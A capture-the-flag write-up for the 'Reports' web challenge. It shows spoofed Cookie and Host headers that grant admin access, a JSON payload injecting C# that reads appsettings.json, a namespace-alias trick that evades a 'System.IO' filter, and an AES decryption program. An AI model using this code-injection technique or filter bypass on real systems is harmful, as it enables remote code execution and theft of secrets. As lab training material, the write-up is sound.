 # 🔥 Reports 🔥
Author: iLoop

Flag: `EPT{Th3r3Ar3Som3FunThingswithTh3RoslynCompiler}`
## Description
```
Once again, the development team of EPT has made a revolutionary website. 
This time, we needed to create some reports to keep track of things.

As always, we only use the latest and greatest programming languages. 
However, I'm not sure if everything has been done correctly. 
It seems that there are some broken parts in the code, but unfortunately, I'm unable to fix the errors :-(

On the other hand, I don't really care since everything works on my machine. 
There might be a prize for the special one who is able to navigate this piece of spaghetti code and find the path to nirvana.
```

## Provided challenge files
* [WebSite.tar.gz](WebSite.tar.gz)

## Writeup


### Introduction
The reports application generates a report by executing the code found in the "Reports" table in the database. This opens up for an opportunity to execute a RCE exploit.

### Exploitation
The /api/Data endpoint allows users with the Admin role originating from a set of defined hostnames to add new reports to the database.

To gain access to this endpoint, two headers must be set:
Cookie: Role=Admin
Host: localhost

The next step is to craft a payload to retrieve the flag. However, there is a restriction: the code must not contain System.IO. To circumvent this limitation, we can alias System as another name, for example: using S = System;.

The final payload can be crafted as such:

```
{
    "id": "1001",
    "name": "Shit2",
    "code": "using System;\nusing System.Data;\nusing System.Data.Common;\nusing Microsoft.Data.Sqlite;\nusing System.Text;\nusing Microsoft.EntityFrameworkCore.ValueGeneration.Internal;\nusing Microsoft.EntityFrameworkCore;\nusing S = System;\nusing WebSite.Models;\nusing System.Collections;\nusing System.Collections.Generic;\n\nnamespace WebSite.Models\n{\n    class ReportTableModelData\n    {\n        public ReportDataModel CreateModel(string conection)\n        {\n            var flag = S.IO.File.ReadAllText(\"appsettings.json\");\n       var data = new ReportDataModel();\n            data.Headers.Add(\"Shit\");\n            \n              var row = new List<string>();\n              row.Add(flag);\n              data.Data.Add(row);\n\n            return data;\n        }\n\n        \n    }\n}\n"
}
```

This payload can then be sent to the Data endpoint. This must be repeated for appsettings.json too. After retrieving the ciphertext and the AES parameters, we can use the following code to decrypt: 

```
using System;
using System.IO;
using System.Security.Cryptography;

    class Program
    {
         static string GetFlag() {
            var key =  System.Convert.FromBase64String("+m/PvlP8q2qteBXh1DPBNBcqflqsIsmcxA1WP0AP+tg=");
            var IV =  System.Convert.FromBase64String("wdNJlxKPtwfxcTw+oYJSOQ==");
            var encrypted_flag =  System.Convert.FromBase64String("BkGxf0oAV5YHjUE3zUQ+Ri07oz3r+fB9l6MArFkm7HF2D4yWA55CMPywL9TSeAu1");

            var flag =DecryptStringFromBytes_Aes(encrypted_flag, key, IV);
            return flag;

         }
         static string DecryptStringFromBytes_Aes(byte[] cipherText, byte[] Key, byte[] IV)
        {
            // Check arguments.
            if (cipherText == null || cipherText.Length <= 0)
                throw new ArgumentNullException("cipherText");
            if (Key == null || Key.Length <= 0)
                throw new ArgumentNullException("Key");
            if (IV == null || IV.Length <= 0)
                throw new ArgumentNullException("IV");

            // Declare the string used to hold
            // the decrypted text.
            string plaintext = null;

            // Create an Aes object
            // with the specified key and IV.
            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = Key;
                aesAlg.IV = IV;

                // Create a decryptor to perform the stream transform.
                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                // Create the streams used for decryption.
                using (MemoryStream msDecrypt = new MemoryStream(cipherText))
                {
                    using (CryptoStream csDecrypt = new CryptoStream(msDecrypt, decryptor, CryptoStreamMode.Read))
                    {
                        using (StreamReader srDecrypt = new StreamReader(csDecrypt))
                        {

                            // Read the decrypted bytes from the decrypting stream
                            // and place them in a string.
                            plaintext = srDecrypt.ReadToEnd();
                        }
                    }
                }
            }

            return plaintext;
        }
    
        static void Main(string[] args)
        {
          Console.WriteLine(Program.GetFlag());
        }
    }
```
